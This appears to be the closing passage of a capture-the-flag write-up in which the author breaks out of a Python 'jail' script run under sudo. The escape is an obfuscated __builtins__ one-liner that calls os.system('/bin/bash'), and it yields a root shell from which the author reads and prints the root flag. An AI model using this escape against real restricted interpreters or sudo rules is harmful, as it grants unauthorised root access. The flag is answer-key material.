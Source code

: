 ~~~py
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash')
~~~

~~~
kamishiro@vagrant:~$ sudo /usr/bin/python3 /home/kamishiro/jail.py
[sudo] password for kamishiro: 
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash')
root@vagrant:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

Great! Now we can read the root flag located in `/root`:

~~~
root@vagrant:~# cd /root
root@vagrant:/root# ls 
root.txt
root@vagrant:/root# cat root.txt 
9d790bb87898ca66f724ab05a9e6000b
~~~

root.txt: `9d790bb87898ca66f724ab05a9e6000b`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something!

Have a g00d one! : )
